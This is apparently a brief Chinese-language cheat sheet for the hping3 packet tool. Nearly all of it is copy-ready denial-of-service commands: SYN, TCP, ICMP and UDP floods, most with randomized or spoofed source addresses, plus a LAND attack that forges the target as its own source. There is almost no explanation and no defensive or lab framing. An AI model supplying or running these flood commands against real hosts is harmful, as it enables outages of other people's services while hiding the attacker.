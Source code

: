 # hping3工具

## 使用

    hping3 host [options]

Syn Flood攻击

    hping3 -c 1000 -d 120 -S -w 64 -p 80 --flood --rand-source 1.1.1.1
    hping3 -S -P -U -p 80 --flood --rand-source 1.1.1.1

TCP Flood攻击

    hping3 -SARFUP -p 80 --flood --rand-source 1.1.1.1

ICMP Flood攻击

    hping3 -q -n -a 1.1.1.1 --icmp -d 56 --flood 1.1.1.1

UDP Flood攻击

    hping3  -a 1.1.1.1 --udp -s 53 -d 100 -p 53 --flood 1.1.1.2

LAND攻击

特殊种类的Syn Flood攻击，源地址和目的地址都是目标机器，目标机器和自己完成三次握手。

    hping3 -n -a 1.1.1.1 -S -d 100 -p 80 --flood 1.1.1.1

